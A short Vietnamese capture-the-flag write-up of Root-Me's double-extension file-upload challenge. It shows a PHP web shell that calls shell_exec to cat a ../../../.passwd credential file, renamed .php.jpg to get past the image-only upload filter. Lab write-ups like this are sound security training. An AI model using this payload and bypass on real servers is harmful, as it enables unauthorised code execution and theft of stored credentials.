



# [File upload – Double extensions](https://www.root-me.org/en/Challenges/Web-Server/File-upload-Double-extensions)

Đầu tiên, ta kiểm tra thử xem password của admin sẽ nằm ở đâu. Thử tìm kiếm tại .passwd file thì nhận được lỗi `403 Forbidden`. Có file này nhưng bị giới hạn access:


Tiếp theo, ta sẽ mở cổng upload của server, ta có thể upload các file image (jpeg/png/gif):



Như vậy, để đọc được `.passwd`, ta cần phải đi ngược folder 3 lần Vị trí .passwd nằm tại `../../../.passwd`

Để đọc được `.passwd`, ta thử sử dụng cổng này để upload file .php lên server và buộc server sử dụng `shell_exec()` để thực thi shell:

```php
<?php  
$output = shell_exec('cat ../../../.passwd');  
echo "<pre>$output</pre>";  
?>
```

Đề bài đã gợi ý cho ta sử dụng Double Extensions, do đó, thử rename file `.php` --> `.php.jpg` và upload:



Upload thành công, truy cập link và nhận password:




- Flag: "****************************"
